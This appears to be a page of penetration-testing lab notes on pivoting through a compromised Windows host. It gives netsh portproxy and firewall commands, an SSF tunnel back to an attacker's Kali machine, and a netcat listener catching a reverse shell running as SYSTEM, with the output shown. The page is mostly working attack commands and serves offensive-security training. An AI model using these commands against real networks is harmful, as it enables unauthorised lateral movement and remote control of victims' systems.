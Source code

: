 ```bash
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

netstat -anp TCP | find "4455"

# ADD A FIREWALL RULE TO ALLOW INBOUND CONNECTIONS
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```
{% endcode %}

In SSF, to pivot you will need to relay incoming traffic from a target host hitting on say port 3333 of the compromised host (the pivot host) to port 3333 on Kali, configured like this

```bash
https://github.com/securesocketfunneling/ssf/releases/tag/3.0.0
C:\>ssf.exe -g -F 22222 -L [pivot-host]:3333:[Kali-IP]:3333 -p 11111 [Kali-IP]
```

Port 11111 is what our ssfd server on Kali is listening for, so this client can connect back, and 22222 is what proxychains is configured to work through. There is a way to do this in Windows 7 and later using `netsh` portproxy. The equivalent with `netsh` would be

{% code overflow="wrap" %}
```csharp
C:\WINDOWS\system32>netsh interface portproxy add v4tov4 listenport=3333 listenaddress=10.100.11.101 connectport=3333 connectaddress=175.12.80.10

C:\WINDOWS\system32>netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.100.11.101   3333        175.12.80.10    3333
```
{% endcode %}

Just to explain&#x20;

• 10.100.11.101 is our pivot Windows host&#x20;

• 175.12.80.10 is Kali. Our Windows host must be able to ping 175.12.80.10 Once set up, set up the listener on Kali port 3333 then trigger the reverse shell on the target host.

```bash
root@Kali:~/PTP/3.3_Offensive_Powershell/Lab 19# nc -nlvp 3333
listening on [any] 3333 ...
connect to [175.12.80.10] from (UNKNOWN) [172.16.80.100] 62636
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 7.0>whoami 
whoami
nt authority\system
```
